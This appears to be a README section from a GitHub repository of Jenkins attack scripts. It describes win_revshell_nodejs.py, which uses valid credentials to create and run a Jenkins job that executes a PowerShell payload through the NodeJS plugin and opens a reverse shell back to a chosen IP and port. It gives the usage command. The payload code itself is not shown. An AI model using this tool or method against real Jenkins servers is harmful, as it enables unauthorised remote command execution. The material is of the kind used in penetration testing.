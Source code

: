 ## win_revshell_nodejs.py
This script is useful when you have valid credentials and want to check if it can be use to spawn a reverse shell.\
The Jenkins server must be installed on Windows. Windows must have [NodeJS](https://nodejs.org/en/download) application installed. Additionally, Jenkins must have the "[nodejs](https://plugins.jenkins.io/nodejs/)" plugin installed.\
To be able to receive a reverse shell, the user must have BUILD and JOB CREATION privileges.\
Once logged in on Jenkins, the script creates a new **"Freestyle project"** JOB.\
![win_revshell_nodejs_1](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_revshell_nodejs.py/images/win_revshell_nodejs_1.png)

Then configures or BUILD it to **"Execute NodeJS script"** with the **Powershell** payload.\
![win_revshell_nodejs_2](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_revshell_nodejs.py/images/win_revshell_nodejs_2.png)

Finally, the script sends the instruction to execute this JOB.

USAGE:
python3 ./win_revshell_nodejs.py -w URL -r LOCAL_IP -rp LOCAL_PORT
![win_revshell_nodejs_3](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_revshell_nodejs.py/images/win_revshell_nodejs_3.png)
![win_revshell_nodejs_4](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_revshell_nodejs.py/images/win_revshell_nodejs_4.png)

Tested on Jenkins 2.150.2 and Windows 10 Pro 22H2 b.19045
